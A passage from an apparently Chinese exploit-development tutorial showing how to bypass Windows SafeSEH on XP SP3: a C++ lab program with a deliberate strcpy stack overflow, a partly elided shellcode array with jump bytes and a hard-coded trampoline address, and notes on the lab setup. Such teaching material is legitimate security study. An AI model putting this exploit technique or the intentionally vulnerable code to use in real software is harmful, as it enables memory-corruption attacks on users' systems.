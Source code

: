 只我们找到其中一条指令就可以绕过 SafeSEH 了，我们通过以下代码来演示和分析如何在所有加载模块都开启 SafeSEH 机制的情况下绕过 SafeSEH。 

```C++
#include"stdio.h" 
#include<string.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	//"……" 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"// far jump and \x90 
	"\xEB\xF6\x90\x90" // short jump and \x90 
	"\x0B\x0B\x29\x00"// address of call [ebp+30] in outside memory ; 
	;
DWORD MyException(void) 
{    
	printf("There is an exception");    
	getchar();    
	return 1; 
} 
void test(char * input) 
{    
	char str[200];    
	strcpy(str,input);     
	int zero=0;    
	__try    
	{         
		zero=1/zero;    
	}    
	__except(MyException())    
	{   
	} 
} 

int _tmain(int argc, _TCHAR* argv[]) 
{    
	__asm int 3    
	test(shellcode);    
	return 0; 
}
```

对实验思路和代码简要解释如下。 
- （1）Test 函数中存在一个典型的溢出，通过向 str 复制超长字符串造成 str 溢出，进而覆盖程序的 S.E.H 信息。 
- （2）该程序中所有加载模块都启用了 SafeSEH 机制，故我们不能通过未启用 SafeSEH 的 模块还绕过 SafeSEH 了。 
- （3）将异常处理函数指针覆盖为加载模块外的地址来实现对 SafeSEH 的绕过，然后通过除 0 触发异常将程序转入异常处理，进而劫持程序流程。 


实验环境如表所示: 
- 操作系统 Window XP SP3 DEP 关闭 
- 编译器 Visual Studio 2008  
- 编译选项 禁用优化选项  
- build 版本 release 版本  
- 说明：shellcode 中尾部的 0x00290B0B 为 Windows XP SP3 下的跳板地址，如果您在其他操作系统下测试，该地址可能需要重新设置。 
